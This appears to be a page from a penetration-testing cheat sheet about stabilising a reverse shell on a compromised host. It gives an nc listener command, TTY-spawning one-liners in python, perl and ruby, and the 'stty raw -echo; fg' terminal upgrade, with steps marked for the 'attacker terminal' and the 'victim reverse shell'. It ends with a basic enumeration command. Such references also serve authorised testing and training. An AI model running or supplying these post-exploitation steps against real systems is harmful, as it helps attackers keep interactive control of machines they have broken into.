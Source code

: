Use `rlwrap` to listening will enhance the shell, allowing to use arrow keys and clear the screen with `[Ctrl]+[L]`

```bash
rlwrap nc -nlvp 443
```

Or want to use su, nano and autocomplete (TAB), let's spawn a TTY shell from an interpreter:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
```

```bash
ruby: exec "/bin/sh"
```

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Upgrading from nc with magic

To see more about your term, row, column information, use the following command on the attacker terminal:

```bash
echo $TERM && tput lines && tput cols
```

Then, run commands on victim reverse shell:

```bash
export SHELL=bash
export TERM=xterm-256color
```

Press `[Ctrl] + [z]`

```bash
stty raw -echo; fg
```

```bash
stty rows 41 columns 209
```

## Enumerate Basic information

Get current user context and hostname

```bash
id && hostname
```
